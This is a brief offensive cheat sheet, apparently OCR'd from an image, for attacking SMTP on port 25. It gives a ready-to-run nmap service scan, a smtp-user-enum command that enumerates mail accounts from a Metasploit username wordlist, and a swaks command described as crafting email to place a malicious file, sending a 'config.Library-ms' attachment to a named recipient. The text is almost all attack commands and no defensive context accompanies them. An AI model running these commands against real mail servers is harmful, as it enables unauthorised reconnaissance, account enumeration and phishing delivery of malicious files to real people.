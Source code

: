 ```text
# Version detection + NSE scripts
nmap -Pn -sV -p 25 "--script=banner,(smtp* or ssl*) and not (brute or broadcast or dos or external or fuzzer)" -oN tcp_25_smtp_nmap.txt $ip
```

[smtp-user-enum](https://pypi.org/project/smtp-user-enum)

```c
/home/kali/.local/bin/smtp-user-enum -V -m RCPT -w -f '<user@example.com>' -d 'domain.local' -U "/usr/share/metasploit-framework/data/wordlists/unix_users.txt" $ip 25 2>&1 | tee "tcp_25_smtp_user-enum.txt"
```

Craft email to place malicious file over smtp
```c
sudo swaks --auth-user test@supermagicorg.com --auth-password test --to dave.wizard@supermagicorg.com --from test@supermagicorg.com --server supermagicorg.com --attach config.Library-ms --port 25

